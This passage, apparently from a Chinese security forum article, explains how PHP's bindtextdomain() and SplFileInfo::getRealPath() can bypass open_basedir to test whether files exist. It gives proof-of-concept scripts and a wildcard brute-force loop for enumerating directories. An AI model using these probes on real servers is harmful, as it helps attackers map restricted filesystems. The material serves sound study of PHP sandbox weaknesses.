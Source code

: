 利用bindtextdomain和SplFileInfo方法
------------------------------

bindtextdomain设置或获取域名的路径，函数原型为:

```php
bindtextdomain(string $domain, ?string $directory): string|false
```

利用原理是基于报错：`bindtextdomain()`函数的第二个参数$directory是一个文件路径，它会在$directory存在的时候返回$directory，不存在则返回false。  
`SplFileInfo`函数类似。  
poc

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

如果成功访问到存在的文件是会返回该文件路径：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-55c77bb99ba1897f020c2effd95de1404147486c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-55c77bb99ba1897f020c2effd95de1404147486c.png)

而如果访问到不存在的文件就会返回`false`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c3cbf24a92e8b4b51c4aad21023a4a9be68ca04a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c3cbf24a92e8b4b51c4aad21023a4a9be68ca04a.png)

这个方法感觉非常鸡肋,用起来比较恶心，最好与其他方法组合使用。

利用SplFileInfo::getRealPath()方法
------------------------------

(PHP 5 &gt;= 5.1.2, PHP 7, PHP 8)  
SplFileInfo类为单个文件的信息提供了一个高级的面向对象的接口。  
而其中`getRealPath()`用于获取文件的绝对路径。bypass原理同样是基于报错，该方法在获取文件路径的时候，如果存入一个不存在的路径时，会返回false，否则返回绝对路径，而且他还直接忽略了open\_basedir的设定。

脚本如下

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("open_basedir: %s <br/><br/>", ini_get('open_basedir'));
$basedir = 'D:/CSGO/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) {
    $info = new SplFileInfo($basedir . $chars[$i] . '<<');
    $re = $info->getRealPath();
    if ($re) {
        echo $re."<br>";
    }
}
```
